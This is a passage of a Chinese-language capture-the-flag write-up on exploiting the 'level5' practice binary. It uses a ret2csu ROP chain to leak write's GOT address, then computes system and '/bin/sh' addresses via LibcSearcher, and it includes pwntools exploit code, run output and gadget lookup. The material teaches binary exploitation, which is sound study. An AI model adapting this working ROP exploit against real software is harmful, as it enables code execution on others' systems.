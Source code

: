 ```
payload = 'a'*0x88+p64(pop_6)
payload+=p64(0)+p64(1)+p64(elf.got['write'])+p64(8)+p64(elf.got['write'])+p64(1)
payload+=p64(mov_3)+'a'*(8*7)+p64(main)
```
write规定传入的第一个参数对应r15，在mov_3处是将r15给edi，所以传入泄露的字节数，只需要泄露8个字节即可。第二个参数对应r14，在mov_3处是将r14给rsi，为要泄露的位置，因为got表中存的是地址而plt表中存的是指令，无法进行call操作，所以第二个参数为write在got表中的地址。第三个参数对应r13，在mov_3处是将r13给rdx，所以第三个参数为1。a*(8*7)，还是继续覆盖栈上的数据，直到把返回值覆盖成目标函数的main函数，最后跳至main函数。


第一部分的payload如下
```
#!python
#!/usr/bin/env python
from pwn import *

p = process('./level5')
elf = ELF('./level5')
#p = remote('127.0.0.1',10001)
pop_6 = 0x000000000040062a
mov_3 = 0x0000000000400610
elf.address=0x0000000000400000
payload = 'a'*(0x80+0x08)+p64(pop_6)
payload += p64(0)+p64(1)+p64(elf.got['write'])+p64(8)+p64(elf.got['write'])+p64(1)
payload += p64(mov_3)
#pwnlib.gdb.attach(p)
p.recvuntil("World\n")
p.sendline(payload)
write=u64(p.recv(8).ljust(8,'\x00'))
print hex(write)
```
结果
```python
python exp.py 
[+] Starting local process './level5': pid 25978
[*] '/root/sploitfun/64/64/level5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
0x7ffff7afc9a0
```
验证
```shell
gdb-peda$ x/3i 0x7ffff7afc9a0
   0x7ffff7afc9a0 <write>:	cmp    DWORD PTR [rip+0x2dd5ed],0x0        # 0x7ffff7dd9f94 <__libc_multiple_threads>
   0x7ffff7afc9a7 <write+7>:	jne    0x7ffff7afc9b9 <write+25>
   0x7ffff7afc9a9 <__write_nocancel>:	mov    eax,0x1

```
第一个payload发出后,接收write地址,计算出system地址和sh地址
```
write=u64(p.recv(8).ljust(8,'\x00'))
print hex(write) 
libc=LibcSearcher('write',write)
libcbase=write-libc.dump('write')
system=libcbase+libc.dump('system')
bin_sh=libcbase+libc.dump('str_bin_sh')
```
查找gadget`ROPgadget --binary level5 | less`
```
0x0000000000400633 : pop rdi ; ret
```

